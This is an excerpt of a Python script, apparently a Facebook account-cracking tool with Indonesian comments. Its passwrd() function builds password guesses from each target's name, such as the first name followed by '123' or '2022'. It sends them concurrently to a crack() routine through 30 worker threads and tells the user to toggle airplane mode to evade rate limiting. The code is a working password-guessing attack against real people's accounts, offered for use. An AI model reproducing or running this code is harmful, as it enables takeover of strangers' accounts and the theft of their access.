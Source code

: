#-------------------[ BAGIAN-WORDLIST ]------------#
def passwrd():
	cetak(nel('[bold cyan]               WAIT FOR A WHILE ðŸ˜‚[bold cyan]')) 
	print(f'                    {m}H {k}A {h}R {u}A {b}P {u}  â˜…  {b}S {u}A {h} B{k} A{m} R{b}')
	print('')
	print(f'=>RESULTS {h}OK{u} CHEK : {h}OK/%s {b}'%(okc))
	print(f'=>RESULTS {k}CP{h} CHEK : {k}CP/%s {b}'%(cpc))
	print(f'=>TURN AIRPLANE MODE AFTER CLONE IDZ ABOVE {h}1K{u} Idz\n')
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456')
					pwv.append(frs+'2020')
					pwv.append(frs+'2021')
					pwv.append(frs+'2022')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456')
					pwv.append(frs+'2020')
					pwv.append(frs+'2021')
					pwv.append(frs+'2022')
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(crack,idf,pwv)
			elif 'touch' in method:
				pool.submit(crack,idf,pwv)
			elif 'mbasic' in method:
				pool.submit(crack,idf,pwv)
			else:
				pool.submit(crack,idf,pwv)
	print('')
	cetak(nel('\t[purple]=>[green] Crack Selesai Ngab, Jangan Lupa Bersyukur[purple] <<[yellow] '))
	print(f'[{h}â€¢{u}]{h} OK : {h}%s '%(ok))
	print(f'{k}[{k}â€¢{h}]{k} CP : {k}%s{u} '%(cp))
	print('')
	print('{k}=>Lanjut Crack Kembali ( Y/t ) ? ')
	woi = input('=>Pilih : ')
	if woi in ['y','Y']:
		back()
	else:
		print(f'\t{x}=>{k} Good Bye Dadaahh{u} ')
		time.sleep(2)
		exit()
#--------------------[ METODE-B-API ]-----------------#